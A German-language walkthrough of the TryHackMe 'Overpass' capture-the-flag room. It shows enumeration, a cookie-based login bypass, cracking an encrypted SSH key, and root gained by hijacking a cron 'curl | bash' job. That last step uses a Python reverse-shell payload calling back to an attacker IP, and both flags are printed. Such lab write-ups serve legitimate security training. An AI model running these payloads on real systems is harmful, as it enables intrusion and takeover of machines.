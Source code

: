 # Overpass 1 CTF tryhackme.com
> Link zur CTF: [tryhackme.com](https://tryhackme.com/room/overpass)

Als erstes Scannen wir die IP-Adresse nach offene Ports um uns ein überblick zu verschaffen:<br>

* Command: `nmap -sV -A -oN scan.txt <TARGET-IP>`<br>

### Nmap Scan Result:
```
# Nmap 7.94SVN scan initiated Sun Feb 18 22:26:31 2024 as: nmap -sV -A -oN scan.txt 10.10.129.208
Nmap scan report for 10.10.129.208
Host is up (0.079s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
|_  256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Overpass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 18 22:26:48 2024 -- 1 IP address (1 host up) scanned in 16.27 seconds
```

es sind also 2 Ports offen. SSH ist nicht angreifbar, aber http ist interesant also konzentrieren wir uns auf port 80.
Als erstes Scannen wir die website nach verzeichnisse und bruteforcen diese:<br>

* Command: `gobsuter dir http://10.10.197.218/ /usr/share/wordlists/dirb/command.txt`<br>

### Gobuster Result:
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.197.218/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/aboutus              (Status: 301) [Size: 0] [--> aboutus/]
/admin                (Status: 301) [Size: 42] [--> /admin/]
/css                  (Status: 301) [Size: 0] [--> css/]
/downloads            (Status: 301) [Size: 0] [--> downloads/]
/img                  (Status: 301) [Size: 0] [--> img/]
/index.html           (Status: 301) [Size: 0] [--> ./]

===============================================================
Finished
===============================================================
```
Ein interesantes gibt es bei dem ergebnis: **/admin** sieht wie eine Login-Page aus.<br>

### /admin page:
![Admin anmelde Seite](./admin_page.png)

nach dem ich einmal zum test **username=admin&password=admin** ausprobiert habe habe ich mit dem Browser-Tools von Mozilla Firefox sehen können das eine .js Datei angesprochen wird namens: **login.js** wenn wir uns diesen code mal ansehen finden wir folgende interesante funktion:<br>

* login.js:
  ```javascript
    async function login() {
      const usernameBox = document.querySelector("#username");
      const passwordBox = document.querySelector("#password");
      const loginStatus = document.querySelector("#loginStatus");
      loginStatus.textContent = ""
      const creds = { username: usernameBox.value, password: passwordBox.value }
      const response = await postData("/api/login", creds)
      const statusOrCookie = await response.text()
      if (statusOrCookie === "Incorrect credentials") {
          loginStatus.textContent = "Incorrect Credentials"
          passwordBox.value=""
      } else {
          Cookies.set("SessionToken",statusOrCookie)
          window.location = "/admin"
      }
    }
  ```
in diesem code gibt es eine sicherheits lücke die in einem echten Senario ziemlich fatal währe,<br>der Fehler liegt in: `(statusOrCookie === "Incorrect credentials")` Man könnte einfach sein Cookie auf `"statusOrCookie"` setzen über die Browser-Console<br>

* Command: `Cookies.set("SessionToken","statusOrCookie")` <br>

und die Seite neuladen und dadruch das login umgehen, und ich bin drin!<br>

### Seiten Inhalt:
```
Since you keep forgetting your password, James, I've set up SSH keys for you.

If you forget the password for this, crack it yourself. I'm tired of fixing stuff for you.
Also, we really need to talk about this "Military Grade" encryption. - Paradox

-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,9F85D92F34F42626F13A7493AB48F337

LNu5wQBBz7pKZ3cc4TWlxIUuD/opJi1DVpPa06pwiHHhe8Zjw3/v+xnmtS3O+qiN
JHnLS8oUVR6Smosw4pqLGcP3AwKvrzDWtw2ycO7mNdNszwLp3uto7ENdTIbzvJal
73/eUN9kYF0ua9rZC6mwoI2iG6sdlNL4ZqsYY7rrvDxeCZJkgzQGzkB9wKgw1ljT
WDyy8qncljugOIf8QrHoo30Gv+dAMfipTSR43FGBZ/Hha4jDykUXP0PvuFyTbVdv
BMXmr3xuKkB6I6k/jLjqWcLrhPWS0qRJ718G/u8cqYX3oJmM0Oo3jgoXYXxewGSZ
AL5bLQFhZJNGoZ+N5nHOll1OBl1tmsUIRwYK7wT/9kvUiL3rhkBURhVIbj2qiHxR
3KwmS4Dm4AOtoPTIAmVyaKmCWopf6le1+wzZ/UprNCAgeGTlZKX/joruW7ZJuAUf
ABbRLLwFVPMgahrBp6vRfNECSxztbFmXPoVwvWRQ98Z+p8MiOoReb7Jfusy6GvZk
VfW2gpmkAr8yDQynUukoWexPeDHWiSlg1kRJKrQP7GCupvW/r/Yc1RmNTfzT5eeR
OkUOTMqmd3Lj07yELyavlBHrz5FJvzPM3rimRwEsl8GH111D4L5rAKVcusdFcg8P
9BQukWbzVZHbaQtAGVGy0FKJv1WhA+pjTLqwU+c15WF7ENb3Dm5qdUoSSlPzRjze
eaPG5O4U9Fq0ZaYPkMlyJCzRVp43De4KKkyO5FQ+xSxce3FW0b63+8REgYirOGcZ
4TBApY+uz34JXe8jElhrKV9xw/7zG2LokKMnljG2YFIApr99nZFVZs1XOFCCkcM8
GFheoT4yFwrXhU1fjQjW/cR0kbhOv7RfV5x7L36x3ZuCfBdlWkt/h2M5nowjcbYn
exxOuOdqdazTjrXOyRNyOtYF9WPLhLRHapBAkXzvNSOERB3TJca8ydbKsyasdCGy
AIPX52bioBlDhg8DmPApR1C1zRYwT1LEFKt7KKAaogbw3G5raSzB54MQpX6WL+wk
6p7/wOX6WMo1MlkF95M3C7dxPFEspLHfpBxf2qys9MqBsd0rLkXoYR6gpbGbAW58
dPm51MekHD+WeP8oTYGI4PVCS/WF+U90Gty0UmgyI9qfxMVIu1BcmJhzh8gdtT0i
n0Lz5pKY+rLxdUaAA9KVwFsdiXnXjHEE1UwnDqqrvgBuvX6Nux+hfgXi9Bsy68qT
8HiUKTEsukcv/IYHK1s+Uw/H5AWtJsFmWQs3bw+Y4iw+YLZomXA4E7yxPXyfWm4K
4FMg3ng0e4/7HRYJSaXLQOKeNwcf/LW5dipO7DmBjVLsC8eyJ8ujeutP/GcA5l6z
ylqilOgj4+yiS813kNTjCJOwKRsXg2jKbnRa8b7dSRz7aDZVLpJnEy9bhn6a7WtS
49TxToi53ZB14+ougkL4svJyYYIRuQjrUmierXAdmbYF9wimhmLfelrMcofOHRW2
+hL1kHlTtJZU8Zj2Y2Y3hd6yRNJcIgCDrmLbn9C5M0d7g0h2BlFaJIZOYDS6J6Yk
2cWk/Mln7+OhAApAvDBKVM7/LGR9/sVPceEos6HTfBXbmsiV+eoFzUtujtymv8U7
-----END RSA PRIVATE KEY-----
```
Auf der seite finden wir eine nachricht an den User: **James** und einen verschlüsselten **id_rsa** key für den fall das er sein Password vergisst. Anscheinend ist diese Function im Code eine art Backdoor für den Entwickler aber leider nicht personalisiert genung und zu offensichtlich.
<br>
Also speichern wir uns diesen Key auf unseren system in einer datei. Aber wir müssen sie noch entschlüsseln<br>
<br>
dafür benutze ich: `ssh2john`
* Command: `ssh2john id_rsa > hash`<br>
<br>
Jetzt führen ich einen Hash Brute Force angriff aus:<br>
<br>

* Command: `john hash --wordlist=/usr/share/wordlists/rockyou.txt`

  ### John Result:
  ```
  id_rsa:james13

  1 password hash cracked, 0 left
  ```
  <br>  
* Command: `chmod 600 id_rsa`<br>
  <br>
  
jetzt haben wir auch den schlüssel um uns auf denn SSH Server einzuloggen.<br>
Nun loggen wir uns ein mit: `ssh james@IP -id id_rsa` auf dem Server ein,<br>
geben das Password ein für die id_rsa datei: **james13** und wir sind drin!<br>
<br>

### SSH Server:
![SSH Server login](./login_ssh.png)

* User Flag: `thm{65c1aaf000506e56996822c6281e6bf7}`<br>
<br>
Nach dem ich auf dem System **linpeas** ausführe und das systeam nach PrivEsc möglichkeiten scannen finde ich in der **/etc/crontab** file eine Aufgabe die jede Minute ausgeführt wird:<br>
`* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash`<br>
Erklärung:
* Argument 1: `* * * * *` bedeutet dass das die Aufgabe jede Minute ausgeführt wird<br>
* Argument 2: `root` bedeutet das es mit root rechten ausgeführt wird<br>
* Argument 3: `curl overpass.thm/downloads/src/buildscript.sh | bash` ist das was ausgeführt wird

Das ist interesant es wird eine curl abfrage an overpass.thm/downloads/src/buildscript.sh gestellt und die Aufgabe wird automatisch ausgeführt. Was ich noch durch linpeas sehen konnte ist das die **/etc/hosts** bearbeitet werden kann, also könenn wir der domain overpass.thm einfach mit unsere IP-Addresse wechseln und erstellt auf unseren System einfach ein **/downloads/src** Ordner und das **buildscript.sh** mit einer rshell.<br>
<br>
ich entscheide mich für:
`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.65.124",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'`
<br>

## buildscript.sh content:
```bash
#!/bin/sh
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.65.124",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
Als nächstes starte ich ein python3 http.server auf dem port 80 da der target server immer den port 80 abfragt, wichtig ist den server in dem Ordner vor /downloads zu starten und gleichzeitig einen rshell listener zu starten in meinem fall:<br>
<br>
* Command: `nc -lnvp 4444`<br>
<br>
Jetzt heißt es warten bis der Target Server das Script downloaded und ausführt, und ich hab eine root shell<br>

![root access terminal](./root_access.png)

* Root Flag: `thm{7f336f8c359dbac18d54fdd64ea753bb}`


